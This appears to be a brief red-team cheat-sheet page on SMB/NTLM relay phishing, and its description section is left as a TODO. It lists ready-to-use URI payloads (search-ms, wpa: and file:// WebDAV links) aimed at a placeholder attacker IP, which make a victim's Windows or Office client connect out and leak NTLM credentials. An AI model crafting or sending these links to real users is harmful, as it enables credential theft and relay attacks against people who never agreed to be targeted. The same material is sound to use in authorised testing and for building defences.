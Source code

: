 # SMB Relay Phishing

Search Tag(s): #mitm #responder #smb #relay #ntlm #scenarios #phishing

TODO: Fill this info

## 01 - MSQuery

```
search-ms://query=<anything>&subquery=\\<attacker_IP>\<anything>.search-ms

search-ms://query=<anything>&crumb=location:\\<attacker_IP>\<anything>
```

## 02 - Windows Performance Analyzer

```
wpa:////<attacker_IP>/<anything>
```

## 03 - LibreOffice and Microsoft Office

WebDAV link.

```
file://<attacker_IP>/snare
```